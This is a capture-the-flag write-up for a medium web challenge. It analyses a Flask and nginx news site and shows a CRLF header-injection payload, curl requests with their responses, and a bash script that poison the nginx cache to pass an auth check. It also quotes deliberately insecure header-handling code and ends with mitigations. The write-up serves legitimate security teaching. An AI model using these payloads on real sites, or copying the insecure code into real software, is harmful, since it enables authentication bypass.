



# NexusNews — Full Writeup

- **Challenge Author:** N1gh7R4v3n 
- **Category:** Web ( CRLF  / cache poisoning )
- **Difficulty:** Medium 
- **Flag:** `Spark{cr1f_c4ch3_p01s0n_n3xus}`


---

## 1. Challenge Overview



**Challenge files provided to players** (`nexusnews-player.zip`):

```
nexusnews-player/
├── app.py
├── nginx.conf
└── templates/
    ├── base.html
    ├── flag.html
    ├── index.html
    └── news.html
```

- A remote host was provided at `http://<target>:3654/`
- The web application is a Flask news portal behind an nginx reverse proxy with caching enabled
- The goal is to reach the `/flag` endpoint, which returns the flag **only** when the `X-Debug-Verified: true` header is present

### Initial Observations

- Three routes exist: `/` (homepage), `/news` (news listing with language selector), `/flag` (flag endpoint, returns 403 by default)
- The `/news` route accepts a `lang` query parameter and sets an `X-Content-Language` header
- The `nginx.conf` reveals a cache mechanism, an `auth_request` chain, and a custom header `X-Internal-Debug`
- The flag endpoint uses `auth_request` which depends on an internal `/auth-check` subrequest

---

## 2. Reconnaissance & Enumeration


### Source Code Analysis — `app.py`

The first step was examining the player-facing `app.py`:

```python
class InsecureResponse(FlaskResponse):
    def get_wsgi_headers(self, environ):
        return self.headers

app = Flask(__name__)
app.response_class = InsecureResponse
```

This custom `InsecureResponse` class overrides `get_wsgi_headers()` to return `self.headers` directly instead of going through Werkzeug's re-validation. This is a massive red flag — it bypasses Werkzeug's header sanitization at WSGI serialization time.

```python
@app.route('/news')
def news():
    lang = request.args.get('lang', 'en')
    # ...
    resp = make_response(render_template('news.html', ...))
    resp.headers._list.append(('X-Content-Language', lang))
    return resp
```

The string `_list.append` is the second red flag. The `_list` attribute is the underlying raw list of `(key, value)` tuples in Werkzeug's `Headers` object. Normal header assignment via `resp.headers['X-Foo'] = 'bar'` goes through `__setitem__()` which validates header values. But `_list.append()` bypasses all validation — it appends the raw tuple directly to the internal list.

The comment on line 72 says *"Language parameter passed to CDN header for region routing"* — a cover story for the vulnerability.

There's also a hint in a comment:

```python
# "What year did RFC 2616 first describe
#  the risks of unvalidated header values?"
```

RFC 2616 (HTTP/1.1) from 1999 discusses header validation risks — hinting at CRLF injection.

### Source Code Analysis — `nginx.conf`

```nginx
proxy_cache_path /tmp/nginx_cache
    levels=1:2
    keys_zone=news_cache:10m
    max_size=100m
    inactive=60m
    use_temp_path=off;
```

A cache zone `news_cache` is configured with disk storage at `/tmp/nginx_cache`.

```nginx
location /news {
    proxy_cache news_cache;
    proxy_cache_key $uri;
    proxy_cache_valid 200 30s;
    proxy_cache_methods GET;
    proxy_ignore_headers Cache-Control;
    proxy_pass_header X-Internal-Debug;
    # ...
}
```

Key observation: `proxy_cache_key $uri` — the cache key is **only the URI path** (`/news`), ignoring query string parameters entirely. This means `GET /news?lang=en` and `GET /news?lang=fr` both cache under the same key `/news`.

Additionally, `proxy_pass_header X-Internal-Debug` means nginx will forward the `X-Internal-Debug` header from the upstream response to the client **and** cache it.

```nginx
location = /auth-check {
    internal;
    proxy_cache news_cache;
    proxy_cache_key /news;
    proxy_no_cache 1;
    proxy_pass http://127.0.0.1:5000/news;
}
```

The `/auth-check` subrequest is marked `internal` (only nginx itself can call it). It reads from the **same cache zone** `news_cache` using the **same cache key** `/news`. Even though `proxy_no_cache 1` prevents storing, it **still reads from cache**. This is the crucial pivot point.

```nginx
location /flag {
    auth_request /auth-check;
    auth_request_set $debug_verified $upstream_http_x_internal_debug;
    proxy_pass http://127.0.0.1:5000;
    proxy_set_header X-Debug-Verified $debug_verified;
    proxy_set_header X-Internal-Debug "";
}
```

The `/flag` endpoint:
1. Sends an internal auth subrequest to `/auth-check`
2. Captures the `X-Internal-Debug` header from the auth response into `$debug_verified`
3. Forwards it as `X-Debug-Verified` to the Flask backend

If the cached response for `/news` contains `X-Internal-Debug: true`, the auth subrequest will **hit the cache**, return that header, and `/flag` will receive `X-Debug-Verified: true`.

### Understanding the Exploit Chain

At this point the full attack path is clear:

1. **CRLF Injection** — Unsanitized `lang` parameter → inject arbitrary HTTP headers via CRLF (`%0d%0a`)
2. **Werkzeug Bypass** — `_list.append()` + `InsecureResponse` bypass header validation at both insertion and serialization
3. **Cache Key Confusion** — `proxy_cache_key $uri` ignores query strings → poisoned response is cached under `/news`
4. **Auth Cache Reuse** — `/auth-check` reads from the same cache → returns the poisoned headers
5. **Flag Exfiltration** — `X-Internal-Debug: true` propagates as `X-Debug-Verified: true` → Flask returns the flag

---

## 3. Vulnerability Analysis

### The CRLF Injection Vulnerability

**Location**: `app.py:73` — `resp.headers._list.append(('X-Content-Language', lang))`

The `lang` parameter is taken directly from the URL query string without any sanitization or validation. Since it's appended via `_list.append()` instead of `__setitem__()`, it bypasses Werkzeug's header value validation entirely.

Normally, Werkzeug's `Headers.__setitem__()` rejects values containing `\r` or `\n`:

```python
# Werkzeug's Headers.__setitem__
def __setitem__(self, key, value, **kwargs):
    self._validate_value(value)
    # ...

def _validate_value(self, value):
    if not isinstance(value, str):
        raise TypeError(f"Value must be a string, not {type(value)}")
    if "\r" in value or "\n" in value:
        raise ValueError("Detected newline in header value")
```

But `_list.append()` adds the raw tuple directly to `self._list` without any validation.

### The InsecureResponse Bypass

Even if the header injection succeeded via `_list.append()`, Werkzeug normally re-validates headers at WSGI serialization time through `get_wsgi_headers()`. The `InsecureResponse` class overrides this to return `self.headers` directly, bypassing the final validation layer.


---

## 4. Exploit Development

### Step 1: Verify /flag is Protected

Before any exploitation, confirm the `/flag` endpoint returns 403:

```bash
$ curl -s -I http://<target>:3654/flag
```

```
HTTP/1.1 403 FORBIDDEN
Server: nginx/1.26.3
Date: Sun, 24 May 2026 23:19:01 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 8904
Connection: keep-alive
```

The flag endpoint requires `X-Debug-Verified: true` — direct access is denied.



### Step 2: CRLF Injection

Inject the `X-Internal-Debug: true` header via the unsanitized `lang` parameter:

```bash
$ curl -s -I "http://<target>:3654/news?lang=en%0d%0aX-Internal-Debug:%20true"
```

```
HTTP/1.1 200 OK
Server: nginx/1.26.3
Date: Sun, 24 May 2026 23:19:05 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 15661
Connection: keep-alive
X-Content-Language: en
X-Internal-Debug: true
X-Cache-Status: MISS
```

The `X-Internal-Debug: true` header appears in the response — CRLF injection is confirmed. The `X-Cache-Status: MISS` means this fresh response will be cached.

### Step 3: Verify Cache Poisoning

Same request again — should return HIT with the poisoned headers:

```bash
$ curl -s -I "http://<target>:3654/news?lang=en%0d%0aX-Internal-Debug:%20true"
```

```
HTTP/1.1 200 OK
Server: nginx/1.26.3
Date: Sun, 24 May 2026 23:19:05 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 15661
Connection: keep-alive
X-Content-Language: en
X-Internal-Debug: true
X-Cache-Status: HIT
```

`X-Cache-Status: HIT` confirms the poisoned response with `X-Internal-Debug: true` is now cached under key `/news`.

### Step 4: Exploit — Poison and Claim

The auth subrequest at `/auth-check` reads from the same cache with key `/news`. When it finds the poisoned entry with `X-Internal-Debug: true`, `auth_request_set` captures it as `$debug_verified`, which is forwarded to Flask as `X-Debug-Verified: true`:

```bash
$ curl http://<target>:3654/flag
```

```
HTTP/1.1 200 OK
Server: nginx/1.26.3
Date: Sun, 24 May 2026 23:19:08 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 25
Connection: keep-alive

<h1>Spark{cr1f_c4ch3_p01s0n_n3xus}</h1>
```

The flag is returned! The exploit works in ~2 seconds.



The 30-second exploit window exists because the cron job clears the cache every 30 seconds. If you miss the window, simply re-poison and try again.

---

## 5. Exploitation & Proof

### Verification: Without Poison

```bash
$ curl -s -I http://<target>:3654/flag
HTTP/1.1 403 FORBIDDEN
# Access Denied — X-Debug-Verified header is missing

$ curl -s -I -H "X-Debug-Verified: true" http://<target>:3654/flag
HTTP/1.1 403 FORBIDDEN
# Also 403 — the header must come from the auth_request chain, not directly
```

---

## 6. Full Exploit Code
### Pure Bash Exploit

```bash
#!/bin/bash
# NexusNews Exploit — CRLF → Cache Poisoning → Flag

TARGET="${1:-<target>:3654}"

echo "[*] Target: $TARGET"
echo "[*] Step 1: Poisoning cache via CRLF injection..."

curl -s "http://$TARGET/news?lang=en%0d%0aX-Internal-Debug:%20true" > /dev/null

echo "[*] Step 2: Retrieving flag..."
curl -s "http://$TARGET/flag"
echo
```

---

## 7. Lessons Learned & Key Takeaways

### Vulnerability Class

**CRLF Injection (HTTP Response Splitting)** combined with **Web Cache Poisoning**:

- **CWE-93**: Improper Neutralization of CRLF Sequences ('CRLF Injection')
- **CWE-444**: Inconsistent Interpretation of HTTP Responses ('HTTP Response Splitting')
- **CWE-525**: Use of Web Cache Containing Sensitive Information

### What Made This Challenge Interesting

1. **Triple Werkzeug Bypass**: The exploit requires bypassing Werkzeug's header validation at three separate layers:
   - `_list.append()` bypasses `__setitem__()` validation
   - `InsecureResponse.get_wsgi_headers()` bypasses WSGI serialization re-validation
   - Flask dev server doesn't validate headers at all at serialization time

2. **Cache Key Confusion**: The nginx `proxy_cache_key $uri` ignores query strings. Combined with a shared cache zone between `/news` and `/auth-check`, this creates a cross-endpoint cache poisoning vector.

3. **Auth Request Cache Reuse**: The `/flag` endpoint's auth subrequest reads from the same cache that the `/news` endpoint writes to, creating a privilege escalation path through cached headers.

4. **Timed Window**: The 30-second cache TTL and cron-based clearing creates a sense of urgency — players must act quickly after poisoning.

### Mitigations

| Issue | Mitigation |
|-------|-----------|
| CRLF Injection | Validate/sanitize all user input before setting headers. Use `headers['key'] = value` instead of `_list.append()` |
| Header Validation Bypass | Don't subclass `Response` to disable `get_wsgi_headers()` — this exists specifically to prevent header injection |
| Cache Key | Use `$scheme$host$uri$is_args$args` as cache key to include query parameters |
| Cache Isolation | Use separate cache zones for different endpoints, or disable caching on `/auth-check` entirely |
| Auth Subrequest | Do not route auth subrequests through a cached endpoint; use a dedicated backend endpoint |

### Resources

- [PortSwigger: HTTP response splitting](https://portswigger.net/web-security/response-splitting)
- [PortSwigger: Web cache poisoning](https://portswigger.net/web-security/web-cache-poisoning)
- [OWASP: CRLF Injection](https://owasp.org/www-community/attacks/CRLF_Injection)
- [Nginx: proxy_cache_key](https://nginx.org/en/docs/http/ngx_http_proxy_module.html#proxy_cache_key)
- [Nginx: auth_request](https://nginx.org/en/docs/http/ngx_http_auth_request_module.html)
- [RFC 2616 — HTTP/1.1 (1999)](https://datatracker.ietf.org/doc/html/rfc2616)

---

### Challenge Author

- **Author**: [N1gh7R4v3n]
- [Linkedin](https://www.linkedin.com/in/n1gh7r4v3n/) 

